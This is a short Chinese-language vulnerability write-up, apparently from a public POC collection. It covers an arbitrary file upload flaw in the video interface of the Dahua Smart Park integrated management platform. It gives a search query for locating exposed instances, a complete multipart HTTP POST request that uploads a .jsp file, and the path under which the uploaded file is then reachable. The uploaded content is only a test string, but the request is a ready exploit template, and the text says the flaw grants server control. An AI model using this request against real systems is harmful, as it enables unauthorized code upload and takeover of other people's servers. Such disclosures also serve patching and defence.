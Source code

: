 # 

# 大华 智慧园区综合管理平台 video 任意文件上传漏洞

## 漏洞描述

大华 智慧园区综合管理平台 video 接口存在任意文件上传漏洞，攻击者通过漏洞可以上传任意文件到服务器中，控制服务器权限

## 漏洞影响

大华 智慧园区综合管理平台

## 网络测绘

```
app="dahua-智慧园区综合管理平台"
```

## 漏洞复现

登陆页面

![image-20230704114553099](./images/image-20230704114553099.png)

验证POC

```
POST /publishing/publishing/material/file/video HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Content-Length: 804
Content-Type: multipart/form-data; boundary=dd8f988919484abab3816881c55272a7
Accept-Encoding: gzip, deflate
Connection: close

--dd8f988919484abab3816881c55272a7
Content-Disposition: form-data; name="Filedata"; filename="Test.jsp"

Test
--dd8f988919484abab3816881c55272a7
Content-Disposition: form-data; name="Submit"

submit
--dd8f988919484abab3816881c55272a7--
```

![image-20230828145833164](images/image-20230828145833164.png)

访问：

```
/publishingImg/VIDEO/230812152005170200.jsp
```
